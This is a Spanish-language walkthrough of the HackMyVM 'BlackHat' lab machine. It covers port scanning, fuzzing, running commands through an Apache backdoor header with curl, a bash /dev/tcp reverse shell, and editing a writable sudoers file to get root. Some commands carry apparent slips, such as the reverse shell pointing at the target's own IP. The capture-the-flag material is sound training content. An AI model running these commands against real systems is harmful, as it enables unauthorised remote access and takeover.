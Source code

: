 ```yaml
---
layout: post
title: BlackHat
date: 2022-11-29
categories: ["HMV", "Enumeration", "PHP", "File Edit"]
thumbnail: "assets/images/BlackHat.png"
---
```


# BlackHat [ Hack My VM ]

### Reconocimiento
##### Descubrimiento de puertos y reconocimiento básico
- `nmap -sS --min-rate 5000 192.168.1.118 -oG allPorts`
- `nmap -sCV -p80 192.168.1.118 -oN targeted`

No vemos nada interesante, sigamos investigando.

### Shell
Como no hemos visto nada interesante vamos a hacer `fuzzing`, en mi caso utilizaré `WFuzz`, una herramienta en `Python`. Antes de eso me fijé que utilizaba `PHP`, por lo que en vez de buscar directorios busqué por archivos `PHP`.

- `wfuzz -u "192.168.1.118/FUZZ.php" -w directory-list-2.3-medium.txt`

Tras unos minutos de espera veremos un archivo `PHP` con el nombre de `phpinfo.php`. Dicho fichero contiene la información de `PHP` representada, por lo que es bastante útil a la hora de descubrir cosas.

Bien, tras un rato mirando me fijé en `Loaded Modules`, había un módulo algo extraño llamado `mod_backdoor`. Busqué información sobre éste módulo y llegué a un `script` en `Python` hecho por [`WangYihang`](https://github.com/WangYihang/Apache-HTTP-Server-Module-Backdoor/blob/master/exploit.py) el cual si inspeccionamos el código veremos que para enviar un comando utiliza el `header` `Backdoor`.

Sabiendo esto podemos crear nosotros mismos esa petición con `CURL`, vamos allá:

- `curl -H "Backdoor: id" http://192.168.1.118`

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Bien! Vemos que podemos ejecutar comandos de forma remota! Ahora tenemos que ganar una Shell, para ello me copié una Reverse Shell de [`IronHackers`](https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/) en `Bash`. Antes de enviar el comando nos tenemos que poner es escucha con `NC` por el puerto que queramos, en mi caso el `4444`:

- `nc -nlvp 4444`

Ahora sí estamos preparados para entablar una conexión:

- `curl -H "Backdoor: bash -c 'bash -i >& /dev/tcp/192.168.1.118/4444 0>&1'" http://192.168.1.118`

Bien! Hemos recibido una Shell como `www-data`!

### Subida de privilegios #1
Una vez dentro de la máquina me dispuse a listar los usuarios, antes de mirar el archivo `/etc/passwd` me gusta listar el directorio `/home/`. Vemos a un usuario con el nombre `darkdante`.

Tras varios minutos sin conseguir nada como `www-data` ejecuté el siguiente comando:

- `sudo - darkdante`

Wow! No hemos proporcionado contraseña y estamos como `Darkdante`! 

### Subida de privilegios #2
Ahora que ya estamos como `Darkdante` podemos continuar con nuestro objetivo: obtener `root`. Para ello comencé con enumeración básica, aunque no sirvió de nada. Tras un rato me puse a ver los archivos importantes: `/etc/passwd`, `/etc/shadow` (no tenía permisos) y, por último `/etc sudoers`, el cual podía editar.

Vaya sorpresa, generalmente dicho archivo no se puede editar debido a los riesgos que conlleva, pero como se puede editar vamos a poner nuestro nombre de usuario para que pueda ejecutar todo como `root` sin contraseña.

Para ello añadiremos la siguiente línea justo debajo de `root`:

```
darkdante ALL=(ALL:ALL) ALL
```

Una vez hecho lo anterior ejecutamos `sudo su` para ser `root`.

Enhorabuena! Estamos en la máquina como `root`! Qué fácil!